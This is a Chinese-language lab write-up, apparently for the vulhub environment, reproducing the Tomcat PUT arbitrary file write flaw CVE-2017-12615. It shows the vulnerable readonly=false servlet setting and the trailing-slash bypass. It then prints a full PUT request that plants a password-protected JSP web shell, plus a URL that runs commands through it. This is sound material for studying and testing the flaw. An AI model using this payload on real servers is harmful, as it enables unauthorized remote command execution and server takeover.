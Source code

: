 # 通过PUT方法的Tomcat任意写入文件漏洞（CVE-2017-12615）

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包--->发包--->写入shell--->命令执行

### 0x01漏洞介绍

​				Tomcat设置了写许可权（readonly = false），这导致我们可以将文件写入服务器。

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

尽管Tomcat在某种程度上检查了文件后缀（无法直接编写jsp），但我们仍然可以通过某些文件系统功能（例如`/`在Linux中使用）来绕过该限制。



### 0x02漏洞复现

#### 		payload

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

```
http://192.168.68.132:8080/1.jsp?pwd=023&i=ls
```



![Tomcat_PUT方法任意写入文件漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Tomcat_PUT方法任意写入文件漏洞_1.jpg)

![Tomcat_PUT方法任意写入文件漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Tomcat_PUT方法任意写入文件漏洞_2.jpg)



### 0x03参考资料

https://www.cnblogs.com/qianxiao996/p/13574653.html